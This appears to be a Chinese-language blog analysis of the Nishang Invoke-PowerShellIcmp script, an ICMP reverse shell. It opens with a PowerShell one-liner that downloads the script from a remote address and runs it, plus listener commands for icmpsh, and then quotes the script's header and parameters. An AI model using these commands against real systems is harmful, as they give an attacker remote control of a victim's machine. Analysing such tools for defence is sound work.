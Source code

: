 # nishang脚本分析

## 脚本分析

先介绍一下使用，这里分析的是icmp协议反弹shell的脚本，下面是使用方法：

powershell iex (New-Object Net.WebClient).DownloadString('http://地址/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp -IPAddress [反弹地址]

其他脚本使用方法类似，还是因为默认执行策略的原因，最好还是用下载的方式远程加载脚本，即使这是最容易被提示风险的。

下面是关于脚本每一步的分析：

```
function Invoke-PowerShellIcmp
{ 
<#
.SYNOPSIS
Nishang script which can be used for a Reverse interactive PowerShell from a target over ICMP. 
.DESCRIPTION
This script can receive commands from a server, execute them and return the result to the server using only ICMP.
The server to be used with it is icmpsh_m.py from the icmpsh tools (https://github.com/inquisb/icmpsh).
.PARAMETER IPAddress
The IP address of the server/listener to connect to.
.PARAMETER Delay
Time in seconds for which the script waits for a command from the server. Default is 5 seconds. 
.PARAMETER BufferSize
The size of output Buffer. Defualt is 128.
.EXAMPLE
# sysctl -w net.ipv4.icmp_echo_ignore_all=1
# python icmpsh_m.py 192.168.254.226 192.168.254.1
Run above commands to start a listener on a Linux computer (tested on Kali Linux).
icmpsh_m.py is a part of the icmpsh tools.
On the target, run the below command.
PS > Invoke-PowerShellIcmp -IPAddress 192.168.254.226
Above shows an example of an interactive PowerShell reverse connect shell. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-5.html
https://github.com/samratashok/nishang
#>   

#   这里开始

#   函数参数

    [CmdletBinding()] Param(

        # ip地址
        [Parameter(Position = 0, Mandatory = $true)]
        [String]
        $IPAddress,

        # 延迟秒数
        [Parameter(Position = 1, Mandatory = $false)]
        [Int]
        $Delay = 5,

        # 命令的数据包大小
        [Parameter(Position = 2, Mandatory = $false)]
        [Int]
        $BufferSize = 128

```
